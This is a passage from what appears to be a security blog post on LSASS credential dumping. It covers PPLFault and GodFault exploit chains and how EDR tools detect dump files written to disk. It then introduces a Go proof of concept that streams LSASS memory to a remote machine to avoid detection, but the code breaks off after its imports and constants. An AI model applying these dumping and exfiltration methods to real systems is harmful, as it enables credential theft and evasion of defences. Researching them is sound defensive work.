 


Microsoft has demonstrated a willingness to revoke signatures for drivers, particularly if they are employed in public projects aimed at dumping LSASS. Consequently, if an attacker seeks the power of a Kernel driver but cannot load one, they may resort to a chain of userland exploits against PPL (Protected Process Light) to execute LSASS memory dumping.

Gabriel Landau's BlackHat talk [https://i.blackhat.com/Asia-23/AS-23-Landau-PPLdump-Is-Dead-Long-Live-PPLdump.pdf](https://i.blackhat.com/Asia-23/AS-23-Landau-PPLdump-Is-Dead-Long-Live-PPLdump.pdf) sheds light on a history of userland bugs against PPL that Microsoft only patched after turn-key solutions emerged on GitHub. This includes Landau's own tool, PPLFault, which exploits a TOCTOU (Time-Of-Check Time-Of-Use) bug in Windows Code Integrity to achieve arbitrary code execution as WinTcp-Light, enabling memory dump.

Landau took this tool a step further with GodFault [https://www.elastic.co/security-labs/forget-vulnerable-drivers-admin-is-all-you-need](https://www.elastic.co/security-labs/forget-vulnerable-drivers-admin-is-all-you-need)., integrating the userland TOCTOU exploit with an unpatched Windows exploit in win32k!NtUserHardErrorControlCall. This allowed Landau to decrement KTHREAD.PreviousMode from UserMode (1) to KernelMode (0) on the migrated CSRSS handle, creating an exploit chain of admin -> PPL -> kernel. This work was also integrated into EDRSandblast, eliminating the need for a vulnerable driver, thereby making it easier for attackers to blind EDR once again.

Microsoft eventually patched the TOCTOU bug after 510 days. In summary, attackers will exploit unpatched vulnerabilities to perform LSASS dumping and attempt to chain exploit primitives to gain write access in the kernel.



Now that we've discussed utilizing Mimikatz, vulnerable kernel drivers, and userland exploits for LSASS dumping, let's delve into one of the latest techniques: using MiniDumpWriteDump. Recently, I came across a YouTube video demonstrating this technique, which was flagged by both Defender and Crowdstrike Falcon [https://www.youtube.com/watch?v=3nxjPkxGDWo&t=12s](https://www.youtube.com/watch?v=3nxjPkxGDWo&t=12s). Interestingly, neither Defender nor Falcon actually detects the act of performing the LSASS dump; instead, they detect the writing of LSASS output to disk, which triggers an alert after a few seconds. This detection isn't contingent on the file extension or content obfuscation.

This observation led me to theorize that tools like PPLBlade worked because they offered an option to XOR encrypt the dump before saving it to disk or transferring it remotely. To test this theory, I decided to create a Go binary capable of remotely dumping LSASS. While this code is merely a proof of concept and not in a productized form, it demonstrates that bypassing Windows Defender doesn't necessarily require advanced EDR bypass techniques.

For my test implementation, I used the code from this GitHub repository as a baseline:[https://github.com/calebsargent/GoProcDump/tree/main](https://github.com/calebsargent/GoProcDump/tree/main). In my implementation, I utilized a similar approach as the final code in the Medium blog mentioned earlier to obtain the process ID for LSASS, leveraging CreateToolhelp32Snapshot. Additionally, I created an anonymous pipe to transmit the dump content to a remote machine, ensuring it never touches disk. Below is the provided code:


```golang 
package main

import (
	"fmt"
	"log"
	"net"
	"os"
	"syscall"
	"unsafe"
	"io"
)

const (
	TH32CS_SNAPPROCESS = 0x00000002 // Snapshot of all processes
	PROCESS_ALL_ACCESS = 0x1F0FFF
)

var (
```